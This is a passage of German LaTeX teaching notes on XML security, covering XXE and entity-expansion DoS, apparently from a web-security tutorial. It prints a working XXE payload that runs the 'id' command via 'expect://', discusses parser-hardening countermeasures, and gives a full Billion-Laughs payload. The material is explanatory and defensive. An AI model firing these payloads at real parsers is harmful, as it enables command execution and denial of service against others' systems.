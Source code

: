 \begin{verbatim}
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [ <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "expect://id" >
]>
<creds>
  <user>&xxe;</user>
  <pass>mypass</pass>
</creds>
\end{verbatim}

In diesem Fall wird als Benutzername die Ausgabe des UNIX-Systemkommandos \textit{id} eingefügt.

\subsection{Gegenmaßnahmen}

Die bevorzugte Gegenmaßnahme ist es, den verwendeten Parser so zu konfigurieren, dass er keinen Zugriff auf XML External Entities zulässt. Häufig wird auch die Verwendung ``einfacherer'' Dokumentenformate als Gegenmaßnahme vorgeschlagen: dies ist allerdings IMHO nicht der beste Weg, da auch die Parser einfacher Dokumentenformate (wie z. B. CSV und JSON) ebenso Schwachstellen besitzen.

\subsection{DoS Attacks}

Ein weiteres Problem von External Entities ist es, dass hierdurch schnell tiefe und breite Datenstrukturen aufgebaut werden können. Versucht ein Parser nun diese Datenstruktur in-memory zu bauen, kann ein Parser sehr schnell out-of-memory gehen und dadurch einen Speicher-basierten DoS-Angriff durchführen.

Ein bekanntes Beispiel sind Million-Laugh Angriffe:

\begin{verbatim}
<!DOCTYPE root [
 <!ELEMENT root ANY>
 <!ENTITY LOL "LOL">
 <!ENTITY LOL1 "&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;">
 <!ENTITY LOL2 "&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;">
 <!ENTITY LOL3 "&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;">
 <!ENTITY LOL4 "&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;">
 <!ENTITY LOL5 "&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;">
 <!ENTITY LOL6 "&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;">
 <!ENTITY LOL7 "&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;">
 <!ENTITY LOL8 "&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;">
 <!ENTITY LOL9 "&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;"> 
]>
<root>&LOL9;</root>
\end{verbatim}

